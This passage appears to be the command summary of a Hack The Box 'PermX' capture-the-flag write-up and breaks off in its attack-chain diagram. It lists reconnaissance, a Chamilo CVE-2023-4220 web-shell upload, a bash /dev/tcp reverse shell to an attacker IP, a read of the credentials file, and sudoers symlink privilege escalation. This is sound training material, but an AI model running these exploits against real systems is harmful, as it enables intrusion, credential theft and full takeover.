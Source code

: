 
## 📝 Command Summary

```bash
# Network reconnaissance
nmap -Pn -p- --min-rate=1000 -T4 10.10.11.23
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.11.23 | grep '^[0-9]' | cut -d'/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.11.23

# Subdomain fuzzing
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ \
     -u http://permx.htb/ -H 'Host: FUZZ.permx.htb' -t 200 -ic -fw 18

# RCE Upload via CVE-2023-4220
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -F 'bigUploadFile=@shell.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'

# Reverse shell
echo '<?php system("bash -c '\''bash -i >& /dev/tcp/10.10.14.12/4455 0>&1'\''"); ?>' > rev.php
curl -F 'bigUploadFile=@rev.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rev.php'

# Shell stabilization
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 38 columns 160

# Configuration file enumeration
cat /var/www/chamilo/app/config/configuration.php

# SSH connection
ssh mtz@permx.htb

# Sudo ACL exploitation
ln -s /etc/sudoers /home/mtz/root
sudo /opt/acl.sh mtz rw /home/mtz/root
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
sudo bash
```

---

## 🔗 Attack Chain Summary

<div class="bg-white dark:bg-dark-navbar p-8 rounded-xl shadow-lg my-8">
    <h3 class="text-2xl font-bold text-portfolio-violet mb-6 flex items-center">
        <i class="fas fa-project-diagram mr-3"></i>Complete Attack Path
    </h3>
    <div class="space-y-4">
        <div class="flex items-center gap-4 p-4 bg-blue-50 dark:bg-blue-900/20 rounded-lg border-l-4 border-blue-500">
            <div class="text-3xl font-bold text-blue-500">1</div>
            <div class="flex-1">
                <div class="font-bold text-blue-600 dark:text-blue-400">Reconnaissance and Enumeration</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">Nmap → permx.htb → ffuf → lms.permx.htb</div>
            </div>
        </div>
        <div class="flex items-center gap-4 p-4 bg-green-50 dark:bg-green-900/20 rounded-lg border-l-4 border-green-500">
            <div class="text-3xl font-bold text-green-500">2</div>
            <div class="flex-1">